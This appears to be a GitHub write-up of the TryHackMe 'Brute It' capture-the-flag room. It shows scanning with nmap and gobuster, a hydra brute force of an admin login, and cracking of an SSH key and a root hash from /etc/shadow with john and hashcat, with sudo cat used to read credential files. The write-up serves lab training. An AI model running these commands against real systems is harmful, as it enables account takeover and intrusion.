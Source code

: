 ## Brute It | TryHackMe

This is the link for the room [Brute It](https://tryhackme.com/room/bruteit)

<img src="https://user-images.githubusercontent.com/67650329/217137381-3c67f2a8-a1bb-4b77-9882-53356133e60c.png" width="250px" align="center">

---
Learn how to brute, hash cracking and escalate privileges in this box!

Let's Go.

`nmap -sS -sV [TARGET]`

- -sS = TCP SYN scan.
- -sV = Version of services.

This is the result for the scanning with nmap tools.
```
Starting Nmap 7.93 ( https://nmap.org ) at 2023-01-11 00:07 EST
Nmap scan report for TARGET
Host is up (0.21s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
Port open:

- 22 = SSH.
- 80 = http.

After we got the open port. We can search directory with gobuster tools.

`gobuster dir -u [TARGET] -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -f -n -t 250`

- -u = Url Target.
- -w = Wordlist.
- -f = Nospam.
- -n = No Status just result (Nospam).
- -t = Thread.

This is the result for the scanning with gobuster tools.
```
===============================================================
Gobuster v3.4
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.164.83
[+] Method:                  GET
[+] Threads:                 250
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.4
[+] Add Slash:               true
[+] No status:               true
[+] Timeout:                 10s
===============================================================
2023/01/11 00:09:01 Starting gobuster in directory enumeration mode
===============================================================
/admin/               [Size: 671]
```
We got the admin login page. After that i think we can try use burp suite.
```
POST /admin/ HTTP/1.1
…
…
…
user=asd&pass=asd
```
We can see user and pass is display on request.

So we can try brute force it use hydra.

`hydra -l admin -P /usr/share/wordlists/rockyou.txt.gz [TARGET] http-post-form "/admin/index.php:user=^USER^&pass=^PASS^:F=Username or password invalid"`

- -l = Specify a username.
- -P = Wordlist.
- http-post-form = Specify the type of login form used in a web application attack.

This is the result for the brute force with hydra tools.
```
Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-01-11 00:19:58
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking http-post-form://10.10.164.83:80/admin/index.php:user=^USER^&pass=^PASS^:F=Username or password invalid
[80][http-post-form] host: 10.10.164.83   login: admin   password: x***r
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-01-11 00:20:32
```
We got the password and We are in to the admin dashboard.

<img src="https://user-images.githubusercontent.com/67650329/217141154-4bb95800-9762-4daa-b71a-08cfac88bca3.png" width="450px" align="center">

We can see on admin dashboard have RSA Private Key.

We can download it and crack, use John The Ripper tools.
```
/usr/share/john/ssh2john.py id_rsa > id_rsa.hash
john --wordlist=/home/kali/Downloads/rockyou.txt id_rsa.hash
Press 'q' or Ctrl-C to abort, almost any other key for status
r***l     (id_rsa)
```
BOOM!!!. We got the password.

We can try login into the ssh.

`ssh -i id_rsa john@[TARGET]`
```
john@bruteit:~$ ls
user.txt
john@bruteit:~$ cat user.txt
THM{***}
```
After we get in we got the user.

And after that we can try use command `sudo -l`
```
john@bruteit:~$ sudo -l
Matching Defaults entries for john on bruteit:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User john may run the following commands on bruteit:
    (root) NOPASSWD: /bin/cat
```
We got the directory to exploit `/bin/cat`

We can use [gtfobinds](https://gtfobins.github.io/gtfobins/cat/) to exploit the directory.
```
john@bruteit:/$ sudo cat /etc/shadow
root:$6$zdk0.jUm$Vya24cGzM1duJkwM5b17Q205xDJ47LOAg/OpZvJ1gKbLF8PJBdKJA4a6M.JYPUTAaWu4infDjI88U9yUXEVgL.:18490:0:99999:7:::
daemon:*:18295:0:99999:7:::
…
…
```
We got the root hash on `/etc/shadow`

Now we must crack the password using hashcat.

`hashcat -m 1800 text.txt rockyou.txt`

```
…
…
$6$zdk0.jUm$Vya24cGzM1duJkwM5b17Q205xDJ47LOAg/OpZvJ1gKbLF8PJBdKJA4a6M.JYPUTAaWu4infDjI88U9yUXEVgL.:f***l
…
…
```
We got the root password.

And we can try login it.
```
john@bruteit:~$ su root
Password: 
root@bruteit:/home/john# cat /root/root.txt
```
We got the root :)

Thank you for reading 👋.

---
